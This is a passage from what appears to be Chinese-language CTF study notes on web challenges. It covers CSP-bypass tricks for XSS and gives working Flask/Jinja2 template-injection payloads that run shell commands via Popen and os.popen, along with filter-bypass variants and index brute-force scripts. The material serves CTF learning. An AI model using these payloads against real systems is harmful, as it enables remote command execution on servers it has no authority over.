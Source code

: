     - 预期做法： https://voxal.dev/blog/pico-2024-web#elements 。一篇很值得读的wp，作者提供了解XSS题目的一些思路和探索过程（比如翻了一堆JS Web API）。最后的预期解法是利用Credential Management API。这个API顾名思义，在网站想要将密码存储到浏览器的密码管理器时使用。在调用`navigator.credientals.store`存储FederatedCredential类型的登录凭证时，会弹出一个窗口。这个窗口里有个icon，url可由我们设置。到这里就很明显了，FederatedCredential弹出的窗口的对icon url的请求不会被CSP阻挡，于是就能绕过CSP了。不过有个弊端，就是弹窗仅会在一个profile出现一次，要再想弹一次窗口需要换一个profile。如果某个题目显示指定给bot指定不同的profile，可能是使用这个技巧的标志
    - 最简单的做法： https://github.com/satoki/ctf_writeups/tree/master/picoCTF_2024/elements 。题目使用的chromium开启了实验功能，所以直接用实验功能之一的`PendingBeacon API`就能绕过CSP带出flag
- [Imposter](https://github.com/tamuctf/tamuctf-2024/tree/master/web/imposter)
    - XSS里io socket的使用
    - 其他payload： https://gist.github.com/C0nstellati0n/248ed49dea0accfef1527788494e2fa5#imposter

## SSTI

ssti（模板注入）。这张简单但是经典的表说明当出现ssti时如何测试是什么模板。

![ssti_test](../../CTF/BUUCTF/images/Pasted-1-768x458.png)

模板注入分很多种，慢慢积累。

- [twig](https://xz.aliyun.com/t/10056#toc-13)(php)
- [smarty](https://www.anquanke.com/post/id/272393)(php)
- [flask](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/3%E7%BA%A7/Web/shrine.md)(python)。例题1:[[GYCTF2020]FlaskApp](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BGYCTF2020%5DFlaskApp.md)。例题2（利用[subprocess.Popen](https://blog.csdn.net/whatday/article/details/109315876)执行命令）:[[CSCCTF 2019 Qual]FlaskLight](https://blog.csdn.net/mochu7777777/article/details/107589811)。命令：`{{''.__class__.__mro__[1].__subclasses__()[395]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`。索引需要爆破：

```python
import requests
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
for i in range(300,1000):
    url = "http://935b5916-e3d0-4949-80b9-7273c9f46f7b.challenge.ctf.show/hello/{{''.__class__.__mro__[1].__subclasses__()"+f"[{i}]"+"}}"
    res = requests.get(url=url, headers=headers)
    print(res.text)
    if 'Popen' in res.text:
        print(i)
        break 
```
  - 当flask的{{}}被过滤时，可以用{%%}来绕过过滤。例题:[[GWCTF 2019]你的名字](https://blog.csdn.net/cjdgg/article/details/119813547),更多绕过方式可参考[此处](https://blog.csdn.net/miuzzx/article/details/110220425)
  - 最简单的getshell payload(配合eval): `__import__("os").popen("ls").read()`，来源:[[watevrCTF-2019]Supercalc](https://blog.csdn.net/a3320315/article/details/104272833)
  - 能发现flask注入需要大量`.`,`_`，如果被过滤了可以用`[]`替代`.`，16进制编码替代`_`。例如`{{()."__class__"."__bases__"[0]."__subclasses__"()[91]["get_data"](0, "/proc/self/fd/3")}}`绕过过滤的写法就是`{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}`。例题:[[pasecactf_2019]flask_ssti](https://blog.csdn.net/qq_40800734/article/details/107011638)
  - 有时候执行的命令在url里会被截断，可以通过传参的方式解决这个问题。`{{ "".__class__.__base__ .__subclasses__()[132].__init__.__globals__['popen'](request.args.get("cmd")).read()}}ge?cmd=cat /flag `
  - 利用request.values绕过过滤。需要爆破索引
    ```py
    """ import requests 
    for num in range(300): 
        url = ""
        d={"prefix":"{{","suffix":"}}","username":f"().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__({num}).__init__.__globals__.__getitem__(request.values.a)","a":"popen"}
        res = requests.post(url,data=d).text 
        if "popen" in res: 
            print(num) 
            break """
    import requests 